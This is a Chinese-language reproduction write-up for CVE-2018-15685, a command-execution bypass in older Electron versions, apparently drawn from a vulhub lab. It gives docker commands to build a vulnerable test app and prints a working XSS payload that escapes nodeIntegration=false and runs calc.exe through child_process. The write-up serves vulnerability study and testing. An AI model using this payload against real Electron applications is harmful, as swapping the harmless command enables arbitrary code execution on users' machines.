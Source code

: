 （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞
==========================================================

一、漏洞简介
------------

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

二、漏洞影响
------------

GitHub Electron 1.7.15版本，1.8.7版本，2.0.7版本，3.0.0-beta.6版本。

三、复现过程
------------

### 编译APP

执行如下命令编译一个包含漏洞的应用：

    docker-compose run -e PLATFORM=win64 --rm electron

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

    docker-compose run --rm -p 8080:80 web

此时，访问`http://www.0-sec.org:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

### 漏洞复现

在本地打开应用：

![](./.resource/(CVE-2018-15685)ElectronWebPreferences远程命令执行漏洞/media/rId26.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交\`\`，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

    <img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">

可见，calc.exe已成功弹出：

![](./.resource/(CVE-2018-15685)ElectronWebPreferences远程命令执行漏洞/media/rId27.png)

参考链接
--------

> https://vulhub.org/\#/environments/electron/CVE-2018-15685/
